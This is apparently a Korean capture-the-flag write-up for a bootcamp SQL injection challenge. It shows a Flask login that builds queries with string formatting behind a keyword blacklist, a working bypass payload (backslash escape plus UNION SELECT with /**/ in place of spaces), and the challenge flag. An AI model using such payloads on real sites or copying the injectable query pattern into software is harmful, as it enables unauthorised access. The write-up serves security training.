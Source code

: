 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.3 SQLi_WAF_3"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-29T15:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10032/>

![3.3 SQLi WAF 3 1](/assets/images/writeup/web-hacking/knock-on/3-3_SQLi_WAF_3_1.png)

![3.3 SQLi WAF 3 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.3 SQLi WAF 3 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '\'', '"', ' ']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and', '\'', '"', ' ']
```

공백이 추가됨

|

|

|

## 문제 풀이

```sql
union select 1,(select username from user limit 1,1),3 #
```

기존 쿼리에서 공백을 사용하지 않고 로그인을 시도해야 함

|

```sql
/**/
```

공백 자리를 주석으로 대체할 수 있음

맨 뒤 주석은 `--` 대신 `#`으로 해야함

|

|

|

## Exploit

```python
username: \

password: union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3#
```

|

|

### FLAG

---

```python
K0{snow_white_is_beautiful}
```

|

---